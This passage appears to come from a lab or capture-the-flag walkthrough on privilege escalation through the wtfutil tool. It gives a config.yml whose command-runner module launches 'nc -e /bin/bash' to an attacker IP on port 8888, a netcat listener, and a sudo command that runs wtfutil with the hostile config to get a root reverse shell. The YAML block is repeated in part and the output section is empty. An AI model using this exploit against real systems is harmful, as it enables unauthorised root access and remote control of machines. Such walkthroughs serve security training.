

5.2 wtfutil exploit
1. Create a file “config.yml” in the “/tmp” directory on your victim's machine with the following code. Change the IP with your Kali Machine IP.
wtf:
grid:
columns: [40, 40]
rows: [4, 4]
refreshInterval: 1
mods:
disks:
type: cmdrunner
cmd: "nc"
args: ["-e", "/bin/bash", "192.168.12.30", "8888"]
enabled: true
position:
top: 3
left: 1
height: 1
width: 3
refreshInterval: 3
grid:
columns: [40, 40]
rows: [4, 4]
refreshInterval: 1
mods:
disks:
type: cmdrunner
cmd: "nc"
args: ["-e", "/bin/bash", "192.168.12.30", "8888"]
enabled: true
position:
top: 3
left: 1
height: 1
width: 3
refreshInterval: 3
2. On your Kali Machine create “netcat” connection.
$ nc -nlvp 8888
3. On your victim's machine run the following command.
lion@art:/tmp$ sudo /bin/wtfutil --config=/tmp/config.yml
Output:
